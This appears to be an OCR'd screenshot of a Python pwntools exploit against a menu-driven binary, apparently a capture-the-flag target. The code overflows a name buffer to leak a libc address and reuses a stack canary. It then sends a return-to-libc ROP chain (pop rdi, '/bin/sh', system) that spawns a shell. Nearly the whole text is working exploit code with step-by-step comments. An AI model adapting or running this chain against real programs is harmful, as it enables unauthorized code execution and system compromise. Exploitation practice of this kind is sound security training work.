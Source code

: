     def get_libc_base_address():
        io.recvuntil(b"> ")                  # wait till target binary is ready to read choice
        io.sendline(b"1")                    # send choice 1 - enter value for name
        io.sendline(b"a" * 103)              # enter name 103 a + '\n' that is appended automatically
        io.recvuntil(b"> ")                  # wait till binary asks us to make a choice
        io.sendline(b"2")                    # send choice 2 - print name value
        io.recvline()                        # receive all aaaa... till '\n'
        # receive libc_main address in little endian and convert it to number
        addr_libc_main = io.recvline().strip()
        addr_libc_main = addr_libc_main + bytearray(8 - len(addr_libc_main))
        return unpack(addr_libc_main[0:8]) - 0x29d90
    
    
    canary = get_canary_value()
    # set base address of libc library so we can use pwntools to convert offsets to virtual addresses
    libc.address = get_libc_base_address() 
    
    # strings -a -t x libc.so.6 | grep /bin/sh
    sh_offset = libc.offset_to_vaddr(0x1d8678)
    # readelf -s libc.so.6 | grep system
    system = libc.offset_to_vaddr(0x050d70)
    
    # pop rdi
    gadgetPopRdi = libc.offset_to_vaddr(0x000000000002a3e5)
    # xor rax, rax, ret
    gadgetNop = libc.offset_to_vaddr(0x00000000000baaf9)
    
    payload = flat(
        b"a" * 88,
        pack(canary),
        pack(1),
        pack(gadgetPopRdi),
        pack(sh_offset),
        pack(gadgetNop),
        pack(system)
    )
    
    # send payload as name
    io.recvuntil(b"> ")
    io.sendline(b"1")
    io.sendline(payload)
    # exit main which will execute return-to-libc
    io.recvuntil(b"> ")
    io.sendline(b"3")
    